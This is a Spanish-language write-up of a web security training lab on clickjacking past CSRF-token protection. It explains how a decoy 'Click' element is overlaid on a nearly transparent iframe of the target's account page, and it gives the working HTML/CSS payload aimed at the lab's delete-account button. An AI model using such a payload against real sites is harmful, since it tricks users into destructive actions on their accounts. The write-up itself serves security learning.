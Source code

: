 Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.

Este laboratorio permite comprender cómo técnicas visuales engañosas pueden ser tan efectivas como vulnerabilidades técnicas si la interfaz no está debidamente protegida.

Solucion
Basicamente en este laboratorio es engañar al usuario para que le de en un boton donde el texto esta disfrazado 
Aqui el payload
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 600px;
        opacity: 0.1;
    }
    div {
        position:absolute;
        top: 500px;
        left: 40px;
    }
</style>
<div>Click</div>
<iframe src="https://0a8800b9034fe4b880dd9e3e0002001c.web-security-academy.net/my-account"></iframe>

![Pasted_image_20250724215309.png](/Imagenes/Pasted_image_20250724215309.png)
